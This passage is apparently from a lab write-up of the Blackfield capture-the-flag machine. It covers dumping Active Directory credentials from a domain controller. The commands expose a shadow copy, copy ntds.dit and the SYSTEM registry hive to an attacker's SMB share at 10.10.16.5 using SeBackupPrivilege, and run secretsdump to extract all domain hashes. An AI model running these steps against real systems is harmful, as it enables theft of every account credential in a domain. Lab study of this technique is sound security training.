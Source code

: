 ```powershell
		- Creation time: 9/17/2023 5:06:12 AM
		- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
		- Originating machine: DC01.BLACKFIELD.local
		- Service machine: DC01.BLACKFIELD.local
		- Not exposed
		- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
		- Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %df% z:
-> %df% = {369de976-3d85-48d0-b5b0-1baea0f3238c}
The shadow copy was successfully exposed as z:\.
->
```



## 得到  ntds.dit

kali 开启 smb 共享

```bash
smbserver.py s . -smb2support -username zf1yolo -password zf1yolo
```

靶机连接，传送 ntds.dit 文件，这个过程很慢很慢

```powershell
net use \\10.10.16.5\s /u:zf1yolo zf1yolo
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.16.5\s\ntds.dit
```

看看多大

```bash
└─# la -la | grep ntds
-rwxr-xr-x  1 root root 18874368 Sep 17 02:33 ntds.dit
```

To get hashes out of this, I’ll also need the keys from the `SYSTEM` registry file. I’ll save it with `reg`

```
reg.exe save hklm\system \\10.10.16.5\s\system
```



## Dump Hashes

```bash
secretsdump.py -system system -ntds ntds.dit LOCAL
```



```bash
└─# secretsdump.py -system system -ntds ntds.dit LOCAL > ntds.white
```
